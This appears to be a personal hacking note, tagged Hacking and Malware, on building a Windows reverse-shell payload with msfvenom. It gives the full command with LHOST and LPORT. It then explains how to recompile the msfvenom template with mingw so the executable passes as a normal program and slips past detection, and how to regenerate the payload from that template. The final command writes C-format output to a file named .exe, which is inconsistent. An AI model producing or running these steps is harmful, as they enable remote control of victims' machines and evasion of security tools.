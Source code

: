 
Tags: [[Hacking]] [[Malware]]

---

## Usage
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.110 LPORT=443 -f exe > malware
```

- -p specifies the payload
- LHOST specifies your IP
- LPORT specifies the port por the connection
- -f specifies file extension

## Obfuscating

### recompiling it
In kali linux, the msfvenom templates are located in `/usr/share/metasploit-framework/data/templates/src/pe/exe`

so we need to recompile the file `template.c` with a windows compiler (mingw-w64), so it passes as a **normal compiled windows program**

```
i686-w64-mingw32-gcc template.c -lws2_32 -o malware.exe
```

#### regenerating the malware
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.110 LPORT=443 -x malware.exe -f c > malware_obs.exe`